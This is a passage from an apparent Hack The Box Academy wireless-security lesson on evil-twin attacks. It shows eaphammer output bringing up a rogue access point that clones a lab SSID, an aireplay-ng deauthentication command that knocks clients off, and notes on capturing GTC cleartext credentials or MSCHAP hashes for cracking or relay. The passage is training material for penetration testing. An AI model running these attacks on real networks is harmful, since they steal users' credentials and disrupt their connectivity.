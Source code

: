                      .__                                         
  ____ _____  ______ |  |__ _____    _____   _____   ___________ 
_/ __ \\__  \ \____ \|  |  \\__  \  /     \ /     \_/ __ \_  __ \
\  ___/ / __ \|  |_&gt; &gt;   Y  \/ __ \|  Y Y  \  Y Y  \  ___/|  | \/
 \___  &gt;____  /   __/|___|  (____  /__|_|  /__|_|  /\___  &gt;__|   
     \/     \/|__|        \/     \/      \/      \/     \/       


                        Now with more fast travel than a next-gen Bethesda game. &gt;:D

                             Version:  1.14.0
                            Codename:  Final Frontier
                              Author:  @s0lst1c3
                             Contact:  gabriel&lt;&lt;at&gt;&gt;transmitengage.com

    
[?] Am I root?
[*] Checking for rootness...
[*] I AM ROOOOOOOOOOOOT
[*] Root privs confirmed! 8D
[*] Saving current iptables configuration...
sh: 1: iptables-save: not found
[*] Reticulating radio frequency splines...

[*] Using nmcli to tell NetworkManager not to manage wlan1...

100%|███████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 1/1 [00:01&lt;00:00,  1.00s/it]

[*] Success: wlan1 no longer controlled by NetworkManager.

[hostapd] AP starting...

Configuration file: /opt/eaphammer/tmp/hostapd-2025-01-22-12-26-39-56YEO8hvLzWOpB9SNdU5caV2VIqUkWUn.conf
rfkill: Cannot open RFKILL control device
wlan1: interface state UNINITIALIZED-&gt;COUNTRY_UPDATE
Using interface wlan1 with hwaddr 00:11:22:33:44:00 and ssid "HTB-Wireless "
wlan1: interface state COUNTRY_UPDATE-&gt;ENABLED
wlan1: AP-ENABLED 
</code></pre>
<p>Once the AP is enabled, we can see it in the following screenshot. It will look identical to the legitimate AP.</p>
<p><img alt="eaphammer" src="https://academy.hackthebox.com/storage/modules/291/eaphammer/006.PNG"/></p>
<p>We can wait for clients to automatically connect to our rogue AP. If they don't connect, we can force them to disconnect using deauthentication packets with <code>aireplay-ng</code>.</p>
<pre><code class="language-shell-session">[!bash!]$ aireplay-ng --deauth 5 -a 9A:6A:21:34:AD:72  wlan0mon

13:24:04  Waiting for beacon frame (BSSID: 54:8C:A0:E8:DF:B1) on channel 1
NB: this attack is more effective when targeting
a connected wireless client (-c &lt;client's mac&gt;).
13:24:04  Sending DeAuth (code 7) to broadcast -- BSSID: [9A:6A:21:34:AD:72]
13:24:05  Sending DeAuth (code 7) to broadcast -- BSSID: [9A:6A:21:34:AD:72]
13:24:05  Sending DeAuth (code 7) to broadcast -- BSSID: [9A:6A:21:34:AD:72]
13:24:06  Sending DeAuth (code 7) to broadcast -- BSSID: [9A:6A:21:34:AD:72]
13:24:06  Sending DeAuth (code 7) to broadcast -- BSSID: [9A:6A:21:34:AD:72]
</code></pre>
<p>Once the client connects, we can capture their credentials in clear text if they are using a weak authentication method such as <code>GTC</code>. If they are using <code>MSCHAP</code>, we would obtain an NTLM hash. This hash can either be brute-forced using tools like <code>Hashcat</code> or relayed back to the legitimate AP to authenticate to it.</p>
<pre><code class="language-shell-session">wlan1: STA 61:bd:89:a1:9e:1b IEEE 802.11: authenticated
wlan1: STA 61:bd:89:a1:9e:1b IEEE 802.11: associated (aid 1)
wlan1: CTRL-EVENT-EAP-STARTED 61:bd:89:a1:9e:1b
wlan1: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan1: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25
